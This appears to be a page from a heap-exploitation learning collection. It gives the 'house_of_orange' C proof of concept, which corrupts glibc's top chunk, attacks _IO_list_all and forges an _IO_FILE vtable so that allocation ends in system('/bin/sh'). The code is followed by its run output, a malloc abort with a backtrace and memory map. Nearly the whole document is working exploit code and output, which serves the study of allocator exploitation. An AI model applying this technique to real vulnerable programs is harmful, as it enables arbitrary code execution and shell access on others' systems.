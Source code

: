 #### house_of_orange
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int winner (char *ptr);

int main() {
    char *p1, *p2;
    size_t io_list_all, *top;

    p1 = malloc(0x400 - 0x10);

    top = (size_t *) ((char *) p1 + 0x400 - 0x10);
    top[1] = 0xc01;

    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;
    top[3] = io_list_all - 0x10;

    memcpy((char *) top, "/bin/sh\x00", 8);

    top[1] = 0x61;

    _IO_FILE *fp = (_IO_FILE *) top;
    fp->_mode = 0; // top+0xc0
    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(_IO_FILE)) = (size_t) jump_table; // top+0xd8

    malloc(1);
    return 0;
}

int winner(char *ptr) {
    system(ptr);
    return 0;
}
```
```
$ gcc -g house_of_orange.c
$ ./a.out 
*** Error in `./a.out': malloc(): memory corruption: 0x00007f3daece3520 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f3dae9957e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x8213e)[0x7f3dae9a013e]
/lib/x86_64-linux-gnu/libc.so.6(__libc_malloc+0x54)[0x7f3dae9a2184]
./a.out[0x4006cc]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f3dae93e830]
./a.out[0x400509]
======= Memory map: ========
00400000-00401000 r-xp 00000000 08:01 919342                             /home/firmy/how2heap/a.out
00600000-00601000 r--p 00000000 08:01 919342                             /home/firmy/how2heap/a.out
00601000-00602000 rw-p 00001000 08:01 919342                             /home/firmy/how2heap/a.out
01e81000-01ec4000 rw-p 00000000 00:00 0                                  [heap]
7f3da8000000-7f3da8021000 rw-p 00000000 00:00 0 
7f3da8021000-7f3dac000000 ---p 00000000 00:00 0 
7f3dae708000-7f3dae71e000 r-xp 00000000 08:01 398989                     /lib/x86_64-linux-gnu/libgcc_s.so.1
```
